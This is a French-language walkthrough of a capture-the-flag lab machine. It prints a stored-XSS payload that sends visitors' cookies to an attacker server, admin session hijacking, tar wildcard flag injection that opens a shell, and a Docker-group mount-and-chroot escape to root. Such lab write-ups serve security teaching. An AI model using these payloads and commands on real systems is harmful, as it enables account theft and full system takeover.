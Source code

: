# Black Lotus CTF Walkthrough

## Sommaire

1. [XSS & Cookie Theft](#1-xss--cookie-theft)
2. [Accès au Message de l’Admin](#2-accès-au-message-de-ladmin)
3. [Connexion SSH](#3-connexion-ssh)
4. [Escalade de privilèges via tar avec hacker](#4-escalade-de-privilèges-via-tar-avec-hacker)
5. [Exploitation des vulnérabilités de tar](#5-exploitation-des-vulnérabilités-de-tar)
6. [Docker Escape](#6-docker-escape)

## 1. XSS & Cookie Theft

On commence par créer un compte utilisateur et se connecter au site.

Ensuite, on crée une nouvelle liste avec le payload XSS suivant :

```html
<script>document.location='http://10.8.92.59:5555/steal.php?c='+document.cookie</script>
```

Ce script envoie les cookies de toute personne visitant la page vers notre serveur.

Une fois notre propre cookie reçu, on **signale la page** pour que l'administrateur la visite (simulation d'une vulnérabilité **Stored XSS**). Lorsque l’admin ouvre la page, son cookie est également envoyé à notre serveur.

On récupère alors le **cookie admin** et on le remplace dans notre navigateur avec une extension ou via les outils de développement (par exemple avec `document.cookie` dans la console).

## 2. Accès au Message de l’Admin

Une fois authentifié comme admin, un message s’affiche :

> From admin  
> Hi there you h4ck3rz, so you want the Black Lotus? Try me then. SSH to the machine with those creds: `guest:Bl4Ck_L07u5_N3rd`

## 3. Connexion SSH

On se connecte à la machine distante via SSH :

```bash
ssh guest@magic-town
# Mot de passe : Bl4Ck_L07u5_N3rd
```

🎉 **1er Flag accessible**

## 4. Escalade de privilèges via Tar depuis hacker

On découvre qu’on peut utiliser un binaire SUID `hacker` pour zipper un fichier :

```bash
# Depuis le compte guest
sudo -u hacker tar hacker.txt
```

Cela crée un fichier zip avec les droits de l'utilisateur `hacker`.

Ensuite, on dézippe le fichier pour obtenir la flag avec les permimission guest.

🎉 **2ème Flag accessible**

## 5. Exploitation des vulnérabilités de tar

Toujours avec `tar` on peut executer n’importe quelle commande depuis `hacker` donc on cree les fichiers:

```bash
touch '--checkpoint-action=exec=sh'
touch  '--checkpoint=1' 
touch temp.txt
```

Ce sont des fichiers piégés pour forcer une exécution de commande lors d'une archive avec `tar` :

```bash
sudo -u hacker tar 
```

Quand on utilise `tar` ces fichier nous ouvre un shell en tant que `hacker`.

## 6. Docker Escape

On remarque que `hacker` est dans le groupe docker donc on exécute un conteneur Docker :

```bash
docker run -v /:/mnt -it alpine
```

Avec ce volume monté, on a accès à tout le système depuis le conteneur.

Il suffit de chroot dans le système monté pour devenir root :

```bash
chroot /mnt
```

Et voilà, on est **root sur la machine** !

---

🎉 **33eme Flag accessible** depuis le système de fichiers root !
